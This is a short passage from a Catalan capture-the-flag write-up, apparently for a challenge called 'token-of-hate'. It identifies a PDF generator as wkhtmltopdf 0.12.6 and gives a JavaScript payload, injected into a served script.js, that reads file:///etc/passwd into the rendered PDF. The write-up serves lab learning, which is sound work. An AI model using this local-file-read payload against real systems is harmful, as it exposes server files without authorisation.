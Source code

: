 ![alt text](../../../assets/images/token-of-hate/image-9.png)

Observem amb `exiftool` que està generat amb `wkhtmltopdf 0.12.6`, una eina molt popular per transformar `HTML` en `PDF`.

Modifiquem el fitxer `script.js` del nostre servei web amb python per intentar llegir algun fitxer del servidor.

```javascript
x=new XMLHttpRequest;
x.onload=function(){
  document.write("<pre>"+this.responseText+"</pre>");
};
x.open("GET","file:///etc/passwd");
x.send();
```

Descarreguem el document PDF i obtenim el fitxer `/etc/passwd`.
